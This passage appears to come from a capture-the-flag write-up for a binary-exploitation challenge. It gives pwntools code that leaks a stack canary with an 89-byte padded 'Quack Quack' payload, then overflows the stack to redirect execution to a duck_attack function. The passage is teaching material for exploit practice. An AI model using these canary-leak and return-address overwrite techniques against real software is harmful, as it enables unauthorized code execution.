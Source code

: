 ```
120 (total offset) - 32 (pcVar1 adjustment) = 88 bytes
```

To successfully leak the canary, we craft a payload of **88 'A's**, followed by one additional byte (`'A'`) to ensure proper alignment, and finally the string `'Quack Quack '` to satisfy the `strstr` check. This gives us the final payload:

```
b"A" * 89 + b"Quack Quack "
```

We also ensure the null byte (`\x00`) at the beginning of the canary is preserved during reconstruction. Here's the code snippet used to leak the stack canary:

```python
canary_offset = 88 + 1  # +1 for alignment and null byte

io.sendafter("> ", b"A" * canary_offset + b"Quack Quack ")

data_recv = io.recv()
canary_bytes = data_recv.split(b',')[0].strip(b'Quack Quack')[:7]

canary = u64(b"\x00" + canary_bytes)
print(f"Leaked Canary: {hex(canary)}")
```

After successfully leaking the canary we exploit the second buffer overflow we discovered earlier to overwrite the contents of the stack and place the right value in the canary section. From here we overwrite the return address to point to the `duck_attack` function. Before doing that we need to find the address of the `duck_attack` function and we can do that easily using `pwndbg` or `gdb`.  
![Address of the duck_attack function](address_of_duck_attack_function.png)

Now that we know the address of the `duck_attack` function we can craft our second payload to excuted it.
```python
canary_offset = canary_offset - 1 
padding = "A" * canary_offset
duck_attack = 0x000000000040137f
padding_before_ret = "B" * 8

payload = flat(
    [
        padding,
        canary,
        padding_before_ret,
        duck_attack
    ]
)

io.send(payload)

flag = io.recv()

print(f"Flag: {flag}")
io.close()
```
